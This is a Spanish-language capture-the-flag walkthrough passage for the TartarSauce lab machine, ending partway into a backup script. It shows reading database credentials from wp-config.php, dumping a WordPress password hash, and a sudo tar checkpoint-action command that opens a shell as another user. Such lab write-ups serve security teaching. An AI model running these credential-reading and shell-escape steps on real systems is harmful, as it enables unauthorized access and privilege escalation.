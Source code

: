 
```console
www-data@TartarSauce:/var/www/html/webservices/wp$ cat wp-config.php
define('DB_USER', 'wpuser');

/** MySQL database password */
define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');

www-data@TartarSauce:/var/www/html/webservices/wp$ mysql -u wpuser -p
Enter password: w0rdpr3$$d@t@b@$3@cc3$$
mysql> show databases; # wp
mysql> select wp;
mysql> show tables;  # wp_users
mysql> select * from wp_users;
wpadmin    | $P$BBU0yjydBz9THONExe2kPEsvtjStGe1
```
Pero no podemos romperlo con el john.
Seguimos enumerando el sistema.

- Usuarios del Sistema ->  root onuma
- SUIDS -> /var/www/html/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ȜӎŗgͷͼȜ_5h377
- Nopasswd -> (onuma) NOPASSWD: /bin/tar

Si buscamos tar en [gtfobins](https://gtfobins.github.io/gtfobins/tar/) damos con este comando:
```console
www-data@TartarSauce:/home$ sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
$ whoami
onuma
$ bash
onuma@TartarSauce:/home$
```

Si volvemos a enumerar el sistema: 
Encontramos que onuma es propietario de este archivo > /var/backups/onuma-www-dev.bak
Tambien corremos el procmon.sh encontrando:

```console
> /bin/bash /usr/sbin/backuperer
> /bin/bash /usr/sbin/backuperer
> /usr/bin/sudo -u onuma /bin/tar -zcvf /var/tmp/.61d9f97e18c700f859b86c10605381d9e3e2d087 /var/www/html
> /bin/sleep 30
> /bin/tar -zcvf /var/tmp/.61d9f97e18c700f859b86c10605381d9e3e2d087 /var/www/html
> gzip
> /bin/tar -zxvf /var/tmp/.61d9f97e18c700f859b86c10605381d9e3e2d087 -C /var/tmp/check
> gzip -d
> /bin/bash /usr/sbin/backuperer
> /usr/bin/diff -r /var/www/html /var/tmp/check/var/www/html
> /bin/rm -rf /var/tmp/check . ..
```

```bash
#!/bin/bash

#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
```